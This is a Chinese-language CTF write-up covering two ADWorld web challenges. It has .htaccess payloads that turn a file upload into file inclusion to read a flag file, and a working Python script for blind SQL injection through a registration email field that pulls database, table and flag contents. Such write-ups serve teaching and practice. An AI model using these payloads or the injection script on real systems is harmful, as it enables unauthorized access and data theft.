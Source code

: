 ```yaml
---
title: 攻防世界 ADWorld Web 部分题解（2）
tags:
  - Writeup
  - CTF
date: 2019-10-07 00:10:06
---
```



## 0x01 blgdel

CISCN-2018-Final

目录扫描发现存在 robots.txt、sql.txt 等文件，robots.txt 内容为：Disallow: /config.txt .

- config.txt 

```php
<?php
class master {
	private $path;
	private $name;
	
	function __construct(){}

	function stream_open($path) {
		if(!preg_match('/(.*)\/(.*)$/s',$path,$array,0,9)) return 1;
		$a =$array[1];
		parse_str($array[2], $array);
		
		if(isset($array['path'])) {
			$this->path=$array['path'];
		}
		else return 1;
		if(isset($array['name'])) {
			$this->name=$array['name'];
		}
		else return 1;
	
		if($a==='upload') {
			return $this->upload($this->path, $this->name);
		}
		elseif($a==='search') {
			return $this->search($this->path,$this->name);
		}
		else return 1;
	}
	function upload($path,$name) {
		if(!preg_match('/^uploads\/[a-z]{10}\/$/is',$path)||empty($_FILES[$name]['tmp_name']))
			return 1;
		
		$filename=$_FILES[$name]['name'];
		echo $filename;
		
		$file=file_get_contents($_FILES[$name]['tmp_name']);
		
		$file=str_replace('<','!',$file);
		$file=str_replace(urldecode('%03'),'!',$file);
		$file=str_replace('"','!',$file);
		$file=str_replace("'",'!',$file);
		$file=str_replace('.','!',$file);
		if(preg_match('/file:|http|pre|etc/is',$file)) {
			echo 'illegalbbbbbb!';
			return 1;
		}
		
		file_put_contents($path.$filename,$file);
		file_put_contents($path.'user.jpg',$file);
		
		echo 'upload success!';
		return 1;
	}
	function search($path,$name) {
		if(!is_dir($path)) {
			echo 'illegal!';
			return 1;
		}
		$files=scandir($path);
		echo '</br>';
		foreach($files as $k=>$v) {
			if(str_ireplace($name,'',$v)!==$v) {
				echo $v.'</br>';
			}
		}
		return 1;
	}
	
	function stream_eof() {
		return true;
	}
	function stream_read() {
		return '';
	}
	function stream_stat() {
		return '';
	}
	
}

stream_wrapper_unregister('php');
stream_wrapper_unregister('phar');
stream_wrapper_unregister('zip');
stream_wrapper_register('master','master');

?>
```

1. config.php 中注册了自定义的 master 协议处理器，同时禁用了 PHP、Phar、Zip等伪协议。

2. upload() 函数中对上传文件的内容进行了过滤，过滤了`<`、`"`、`'`和`.`等字符，统一替换为 `!`，同时黑名单正则匹配过滤了文件中 `file:`、`http`、`pre`、`etc`等关键字。

3. 结合 config.php 内容以及 upload()函数对上传文件内容中 `pre` 关键字的过滤，猜测用户上传文件目录默认包含了 config.php (`php_value auto_prepend_file config.php`). 

- sql.txt

```sql
CREATE DATABASE `sshop` DEFAULT CHARACTER SET utf8 COLLATE utf8_general_ci;
USE `sshop`;
CREATE TABLE `sshop`.`users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NULL DEFAULT NULL,
  `mail` varchar(255) NULL DEFAULT NULL,
  `password` varchar(255) NULL DEFAULT NULL,
  `point` varchar(255) NULL DEFAULT NULL,
  `shopcar` varchar(255) NULL DEFAULT NULL,
  PRIMARY KEY (`id`)
) DEFAULT CHARSET=utf8 COLLATE=utf8_general_ci;
```

`User.php` 头像上传处可上传任意文件（需满足用户积分 >= 100，可通过邀请用户注册获取积分，每成功注册一名用户邀请人将获取 10 积分，注册10个用户邀请人统一填写统一用户即可集齐 100 积分）。

![](/assets/images/move/20191007002644.png)

考虑升级 文件上传漏洞为 **文件上传 + 文件包含**，结合 config.php 的相关限制（无法替换 auto_prepend_file 从而使用PHP、Phar、Zip伪协议）以及无法进行远程文件包含，则将目光放在新注册的 `master` 伪协议上。

分析协议的构成，发现如果我们可以控制协议，则可以给 **任意目录上传/搜索文件**，而协议流程和对象注入差不多，先是执行 __construct 再是 stream_open,upload/search, stream_read... 主要是 upload 和 search，其余方法都做了处理，可以不管。 

上传目录被限制了，我们可以搜索文件。通过上传特定内容的 `.htaccess`，可以实现在任意目录下搜索文件：

```php
php_value auto_append_file master://search/path={}&name={} # 此时注意 / 要替换为 %2f
```

搜索结果可以通过上传并访问一个 1.php 看到 通过几次简单测试，可以得到在如下 payload 时获取到 `hiahiahia_flag` 文件：

```php
php_value auto_append_file master://search/path=%2fhome%2f&name=flag
```

![](/assets/images/move/20191007010459.png)

此时我们再上传一个 `.htaccess`，内容为 `php_value auto_append_file /home/hiahiahia_flag` 即包含 flag，再访问 1.php，即可获取到 flag。

![](/assets/images/move/20191007010618.png)


## 0x02 Flask_SQLi

![](/assets/images/move/20191021000729.png)

基于 Flask 框架开发的一个 Microblog，题目给出了 Web 应用程序源代码，下载源码进行审计。

查看注册框架 `RegistrationForm` 对注册邮箱过滤不严格：

![](/assets/images/move/20191021001150.png)

跟进 `validate_email` 函数:

```python
validate_email() -> Mysql.One -> Mysql.Sel
```

![](/assets/images/move/20191021001553.png)

拼接 SQL 查询语句如下：

```sql
select id from user where email = 'your_input_email'
```

如果注册邮箱已存在则返回 Please use a different email address. 可构造出如下 payload 进行 SQL盲注：

```sql
select id from user where email = 'test'/**/or/**/1=1#/**/@3ND.com'
```

附 exp 如下：

```python
import requests
from bs4 import BeautifulSoup

url = "http://111.198.29.45:53260/register"

r = requests.get(url)
soup = BeautifulSoup(r.text, "html5lib")
token = soup.find_all(id='csrf_token')[0].get("value")

notice = "Please use a different email address."
result = ""

database = "(SELECT/**/GROUP_CONCAT(schema_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA)"
tables = "(SELECT/**/GROUP_CONCAT(table_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.TABLES/**/WHERE/**/TABLE_SCHEMA=DATABASE())"
columns = "(SELECT/**/GROUP_CONCAT(column_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.COLUMNS/**/WHERE/**/TABLE_NAME=0x666c616161616167)"
data = "(SELECT/**/GROUP_CONCAT(flag/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/flag)"


for i in range(1, 100):
    for j in range(32, 127):
        payload = "test'/**/or/**/ascii(substr(%s,%d,1))=%d#/**/@3ND.com" % (database, i, j)
        post_data = {
            'csrf_token': token,
            'username': '3ND',
            'email':payload,
            'password':'3ND',
            'password2':'3ND',
            'submit':'Register'
        }
        r = requests.post(url, post_data)
        soup = BeautifulSoup(r.text,"html5lib")
        token = soup.find_all(id='csrf_token')[0].get("value")
        if notice in r.text:
            result += chr(j)
            print result
            break
```


